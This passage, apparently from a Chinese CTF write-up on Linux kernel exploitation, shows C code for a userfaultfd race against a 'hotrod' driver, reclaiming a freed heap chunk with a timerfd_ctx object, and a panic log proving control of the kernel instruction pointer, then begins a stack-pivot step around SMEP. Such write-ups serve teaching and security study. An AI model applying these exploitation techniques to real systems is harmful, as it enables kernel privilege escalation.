 ```c
			exit(-1);
		}
		break;
	}

	return 0;
}
```

通过`edit`访问mmap分配的未实际映射的地址造成`PageFault`，在`hadler`中释放`hotrod`分配的堆块，再创建`timerfd_ctx`占据堆块；再控制mmap地址的内容，造成对`timerfd_ctx`的修改。

```c
map_addr = (char *) mmap(0xdead0000, PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);

	unsigned long uffd = register_userfault(map_addr, PAGE_SIZE);
	pthread_t thr;

	// create handler thread
	pthread_create(&thr, NULL, handler, (void*)uffd);

	// Trigger PageFault
	hotrod_edit(0xf0, map_addr);

	// page handler
	pthread_join(thr, NULL);
```

成功控制Kernel RIP

```assembly
---[ end trace fcb6304bd4356056 ]---
RIP: 0010:0xdeadbeefdeadbeef
Code: Bad RIP value.
RSP: 0000:ffff8ed540087e58 EFLAGS: 00000006
RAX: deadbeefdeadbeef RBX: ffffffff9563e0a0 RCX: 0000000000000000
RDX: 00000000fffffffe RSI: 0000000000000000 RDI: ffff8c1cc029aa00
RBP: ffff8ed540087ea8 R08: 0000000000000000 R09: ffffffff9563e040
R10: 0000000000000000 R11: 0000000000000000 R12: 00000001cd5deaac
R13: ffffffff9563e080 R14: ffff8c1cc029aa00 R15: ffffffff9563e080
FS:  0000000001bd3880(0000) GS:ffffffff95632000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00000000006e4000 CR3: 000000000030a000 CR4: 00000000001006b0
Kernel panic - not syncing: Fatal exception in interrupt
Kernel Offset: 0x13e00000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
```

##### Stack Povit

由于开启了`SMEP`，无法`ret2user`，且目前只能修改RIP，不能任意地址写。所以需要通过`Stack Povit`方法为Ropchian创造条件，首先在`htimer`调用回调函数处下断点，看下上下文状态。
